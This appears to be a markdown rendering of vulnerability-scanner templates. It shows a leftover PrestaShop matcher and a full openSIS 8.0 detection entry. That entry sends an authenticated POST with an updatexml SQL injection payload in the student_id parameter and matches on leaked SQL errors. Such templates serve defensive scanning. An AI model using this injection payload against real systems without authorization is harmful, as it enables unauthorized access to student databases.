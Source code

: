 ### Matchers

**Type - dsl**
- dsl
    1. status_code_1 == 200
    2. status_code_2 == 404
    3. contains(body_1, "prestashop")
    4. contains(tolower(all_headers_2), 'index.php?controller=404')
    5. len(body_2) == 0
- condition - and

---
# openSIS Student Information System 8.0 SQL Injection
## Description
- openSIS Student Information System version 8.0 is susceptible to SQL injection via the student_id and TRANSFER[SCHOOL] parameters in POST request sent to /TransferredOutModal.php.
- severity - high
- tags - sqli,auth,edb,cve,cve2021,opensis
## Requests
### Step - 1
```
POST /index.php HTTP/1.1
Host: {{Hostname}}
Origin: {{BaseURL}}
Content-Type: application/x-www-form-urlencoded

USERNAME={{username}}&PASSWORD={{password}}&language=en&log=

```
### Step - 2
```
POST /TransferredOutModal.php?modfunc=detail HTTP/1.1
Host: {{Hostname}}
Origin: {{BaseURL}}
Content-Type: application/x-www-form-urlencoded

student_id=updatexml(0x23,concat(1,md5({{num}})),1)&button=Save&TRANSFER[SCHOOL]=5&TRANSFER[Grade_Level]=5

```
### Matchers

**Type - dsl**
- dsl
    1. contains(body_2, "<!-- SQL STATEMENT:") && contains(body_2, "SELECT COUNT(STUDENT_ID)")
    2. status_code_2 == 200
- condition - and

---